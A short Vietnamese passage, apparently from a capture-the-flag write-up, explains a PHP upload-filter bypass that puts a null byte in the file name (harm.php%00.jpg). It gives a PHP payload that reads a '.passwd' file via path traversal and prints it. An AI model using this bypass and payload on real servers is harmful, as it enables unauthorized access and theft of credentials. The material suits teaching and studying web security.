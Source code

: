 Có 1 lỗ hổng khi upload file trong php là: do php vẫn dùng những hàm của C khi xử lí file, mà trong C kí tự `\0`(URLencode là `%00`) là kí tự null, đánh dấu kết thúc string, sẽ không đọc thêm kí tự nào sau đó nữa. Như vậy khi truyền vào tên file ví dụ như `harm.php%00.jpg`, bộ lọc extension vẫn pass qua vì đuôi .jpg, nhưng hàm xử lí file sẽ chỉ xử lí file có tên `harm.php` mà thôi.  Code của file `harm.php` như sau:

```php
 <?php
$file = fopen("../../../.passwd", "r");

while(! feof($file)) {
  $line = fgets($file);
  echo $line. "<br>";
}

fclose($file);
?> 
```

Upload file này lên và truy cập vào đường dẫn của nó sẽ lấy được password